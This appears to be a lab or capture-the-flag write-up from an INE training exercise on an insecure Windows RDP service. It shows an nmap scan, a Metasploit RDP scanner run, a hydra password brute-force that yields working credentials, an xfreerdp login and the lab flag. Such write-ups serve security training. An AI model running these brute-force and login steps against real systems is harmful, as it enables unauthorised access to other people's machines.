



## Windows: Insecure RDP Service

### Target
`demo.ine.local`

### Tools:
* `xfreerdp`
* `hydra`

### Objective: 
To fingerprint the running RDP service, then exploit the vulnerability using the appropriate method and retrieve the flag!.

---
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV demo.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-20 03:20 IST
Nmap scan report for demo.ine.local (10.3.21.145)
Host is up (0.0029s latency).
Not shown: 992 closed tcp ports (reset)
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.19 seconds
```
```bash
msf6 auxiliary(scanner/rdp/rdp_scanner) > run

[*] 10.3.21.145:3333      - Detected RDP on 10.3.21.145:3333      (name:WIN-OMCNBKR66MN) (domain:WIN-OMCNBKR66MN) (domain_fqdn:WIN-OMCNBKR66MN) (server_fqdn:WIN-OMCNBKR66MN) (os_version:6.3.9600) (Requires NLA: Yes)
[*] demo.ine.local:3333   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
```bash
┌──(root㉿INE)-[~]
└─# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or ss and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-01-20 03:25:38
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the numrecover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 700 login tries (l:7/p:100), ~175 tries p
[DATA] attacking rdp://demo.ine.local:3333/
[3333][rdp] host: demo.ine.local   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: demo.ine.local   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: demo.ine.local   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[STATUS] 412.00 tries/min, 412 tries in 00:01h, 288 to do in 00:01h, 4 active
[3333][rdp] host: demo.ine.local   login: administrator   password: qwertyuiop
[ERROR] freerdp: The connection failed to establish.
[STATUS] 340.00 tries/min, 680 tries in 00:02h, 20 to do in 00:01h, 4 active
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-01-20 03:27:45
```
```bash
┌──(root㉿INE)-[~]
└─# xfreerdp /u:administrator /p:qwertyuiop /v:demo.ine.local:3333                         
[03:28:48:861] [43005:43006] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[03:28:48:861] [43005:43006] [WARN][com.freerdp.crypto] - CN = WIN-OMCNBKR66MN
[03:28:48:862] [43005:43006] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[03:28:48:862] [43005:43006] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[03:28:48:862] [43005:43006] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[03:28:48:863] [43005:43006] [ERROR][com.freerdp.crypto] - The hostname used for this connection (demo.ine.local:3333) 
[03:28:48:863] [43005:43006] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[03:28:48:863] [43005:43006] [ERROR][com.freerdp.crypto] - Common Name (CN):
[03:28:48:863] [43005:43006] [ERROR][com.freerdp.crypto] -      WIN-OMCNBKR66MN
[03:28:48:863] [43005:43006] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for demo.ine.local:3333 (RDP-Server):
        Common Name: WIN-OMCNBKR66MN
        Subject:     CN = WIN-OMCNBKR66MN
        Issuer:      CN = WIN-OMCNBKR66MN
        Thumbprint:  25:79:7c:f0:6c:bb:df:f8:f7:fe:da:b2:6e:9a:c1:6c:f6:3e:ab:74:25:78:0c:0e:78:69:78:43:e7:11:ac:53
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) y
[03:28:52:483] [43005:43006] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: Asia/Kolkata
[03:28:52:684] [43005:43006] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[03:28:52:684] [43005:43006] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[03:28:52:703] [43005:43006] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[03:28:52:703] [43005:43006] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
```



Flag: **port-number-3333**